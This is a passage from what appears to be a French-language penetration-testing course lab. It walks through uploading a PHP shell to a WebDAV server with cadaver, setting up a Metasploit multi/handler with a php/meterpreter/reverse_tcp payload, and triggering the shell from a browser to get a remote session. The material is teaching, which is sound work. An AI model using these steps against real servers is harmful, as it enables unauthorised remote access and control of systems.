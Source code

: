 ##### Déposer sur le serveur WebDAV avec `cadaver`
```zsh
┌──(kali㉿kali)-[~]
└─$ cadaver http://192.168.229.132/uploads/                                                                                    
dav:/uploads/> put shell.php
Uploading shell.php to '/uploads/shell.php':
Progress: [=============================>] 100.0% of 1116 bytes succeeded.
dav:/uploads/> exit
Connection to '192.168.229.132' closed.
```

##### Ouvrir un port d’écoute dans Metasploit 
```zsh
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set payload php/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost 192.168.229.129
lhost => 192.168.229.129
msf6 exploit(multi/handler) > run
```

##### Exécuter le _shell_
Puisque vous avez déposé `shell.php` dans le répertoire `uploads` du serveur, pour l'exécuter il faut ouvrir la page web correspondant et cliquer sur le fichier:

![webdav](/420-513/images/execshell.png)

Vous devriez obtenir un shell sur votre cible dans Metasploit.







## Références
- Tutoriel et documentation de Metasploit (par _Offensive Security_): https://www.offsec.com/metasploit-unleashed/
- Documentation officielle du fabricant (_Rapid7_): https://www.metasploit.com/





